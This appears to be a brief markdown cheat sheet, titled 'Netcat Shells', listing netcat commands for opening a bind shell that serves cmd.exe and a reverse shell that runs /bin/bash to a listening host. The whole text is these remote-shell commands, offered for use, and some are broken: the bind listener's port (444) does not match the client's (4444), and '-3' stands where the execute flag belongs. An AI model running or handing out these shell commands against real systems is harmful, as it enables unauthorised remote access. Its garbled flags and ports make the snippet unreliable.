 # Netcat Shells

#### Bind Shell w/ cmd shell

```bash
nc -nlvp 444 -e cmd.exe
nc -nv <target w/ listener> 4444 
```

#### Reverse Shell w/ cmd shell to listening host

```bash
nc -nlvp 4444
nc -nv <target w/ listener> 4444 -3 /bin/bash
```
